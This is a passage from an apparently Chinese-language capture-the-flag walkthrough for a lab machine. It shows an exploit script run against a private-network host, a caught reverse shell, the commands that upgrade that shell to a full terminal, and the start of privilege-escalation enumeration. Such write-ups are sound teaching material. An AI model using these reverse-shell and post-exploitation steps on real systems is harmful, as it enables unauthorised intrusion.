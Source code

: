 执行利用脚本：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ python3 a.py
[+] Opening connection to 192.168.205.239 on port 6666: Done
[*] Switching to interactive mode
```

成功获取反向 shell：

```bash
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.239] 57342
id
uid=1001(lamb) gid=1001(lamb) groups=1001(lamb)
```

## 4.4 Shell 交互优化

使用 Python PTY 获取完整交互式 Shell：

```bash
script /dev/null -c bash
# Ctrl+Z 挂起
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 36 columns 178
```

# 五、权限提升

## 5.1 信息收集

查看当前用户权限：

```bash
lamb@pwnding:/home/lamb$ id
uid=1001(lamb) gid=1001(lamb) groups=1001(lamb)

lamb@pwnding:/home/lamb$ ls -al
total 28
drwxr-xr-x 2 lamb lamb 4096 Feb 24  2025 .
drwxr-xr-x 3 root root 4096 Feb 19  2025 ..
lrwxrwxrwx 1 lamb lamb    9 Feb 19  2025 .bash_history -> /dev/null
-rw-r--r-- 1 lamb lamb  220 Feb 19  2025 .bash_logout
-rw-r--r-- 1 lamb lamb 3526 Feb 19  2025 .bashrc
-rw-r--r-- 1 lamb lamb  807 Feb 19  2025 .profile
-rw------- 1 lamb lamb    0 Feb 20  2025 .viminfo
-rw-r--r-- 1 root root  528 Feb 24  2025 this_is_a_tips.txt
-rw-r--r-- 1 lamb lamb   39 Feb 24  2025 use3e3e3e3e3sr.txt
```
